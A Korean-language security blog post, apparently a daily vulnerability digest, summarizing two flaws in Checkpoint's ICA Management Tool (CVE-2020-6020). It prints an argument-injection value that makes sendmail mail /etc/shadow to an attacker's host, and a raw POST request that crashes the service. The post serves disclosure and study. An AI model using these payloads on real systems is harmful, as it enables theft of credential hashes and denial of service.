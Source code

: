 ```yaml
---
title: "[하루한줄] CVE-2020-6020: Checkpoint ICA Management Tool에서 발견된 취약점 2가지"
author: idioth
tags: [idioth, argument injection, dos, checkpoint]
categories: [1day1line]
date: 2020-11-23 18:00:00
cc: false
index_img: /img/1day1line.png
---
```


## URL 

[Vulnerabilities in Checkpoint ICA Management Tool](https://swarm.ptsecurity.com/vulnerabilities-in-checkpoint-ica-management-tool/)

## Target

- Checkpoint Security Manager - ICA Management Tool



## Explain

Checkpoint Security Management의 ICA(Internal Certificate Authority) Management Tool에서 Argument Injection과 Denial of Service 취약점이 발견되었습니다. ICA Management Tool은 기본적으로 비활성화되어있으며 `cpca_client set_mgmt_tool on <your certification>`로 활성화할 수 있으며 설정이 활성화되면 http://<smartcenter_ip>:18265/를 통해 접근할 수 있습니다. `cpca_client set_mgmt_tool on -no_ssl`을 통해 활성화할 시 인증 없이 해당 서비스에 접근이 가능하며 Manage Certificates에 접속했을 때 관리자인지 별도의 확인을 진행하지 않습니다.

ICA Management Tool에서 메일을 보내는 프로세스인 cpca는 sendmail 바이너리를 통하여 메일을 전송합니다. sendmail은 파일 전송 기능을 지원하지만 메일을 보낼 때 누가 보내는지 확인을 하지 않으며 최고 권한으로 실행되므로 모든 파일에 접근이 가능합니다. 따라서 인자로 파일 이름을 넘겨주면 해커의 메일 서버로 파일을 전송할 수 있습니다. 

해커가 netcat 등을 통해 서버를 연 후 Configure the CA의 "Management Tool mail server"에 `<hacker_ip> -m /etc/shadow %0a%0a`를 입력하면 해커의 메일 서버에 `/etc/shadow` 파일 내용이 메일 형식으로 날아오게 됩니다.

Denial of Service의 경우 입력 값에 대한 유효성 검사 실패로 인해 발생합니다. 원격 클라이언트가 다음과 같은 형식으로 POST request를 보낼 경우 프로그램이 종료됩니다.

```
POST /file_init?_ HTTP/1.1
Host: checkpoint.host:18265
Cookie: _
Content-Length: 1

q
```